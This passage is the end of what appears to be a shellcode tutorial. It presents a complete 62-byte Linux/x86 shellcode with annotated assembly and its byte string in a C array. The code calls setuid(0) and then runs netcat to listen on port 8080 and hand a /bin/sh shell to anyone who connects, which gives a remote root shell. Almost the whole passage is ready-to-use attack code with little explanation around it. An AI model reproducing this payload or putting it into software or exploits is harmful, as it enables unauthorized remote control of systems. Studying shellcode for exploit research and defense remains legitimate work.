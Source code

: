The length of the shellcode is 62 bytes.

## The end of the journey

What's left is to package it in a C program. 

```c
/*
Shellcode: Linux/x86 - setuid(0) & execve("/bin/nc", ["/bin/nc", "-lp8080", "-e/bin/sh"], NULL) - 62 bytes
Written by: Iliya Dafchev
Date: 15 April 2017

section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
  
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
  
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
  
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
  
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
*/

#include <stdio.h>
#include <string.h>

char shellcode[] =    "\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52"
                                "\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e"
                                "\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68"
                                "\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68"
                                "\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89"
                                "\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58"
                                "\xcd\x80";

```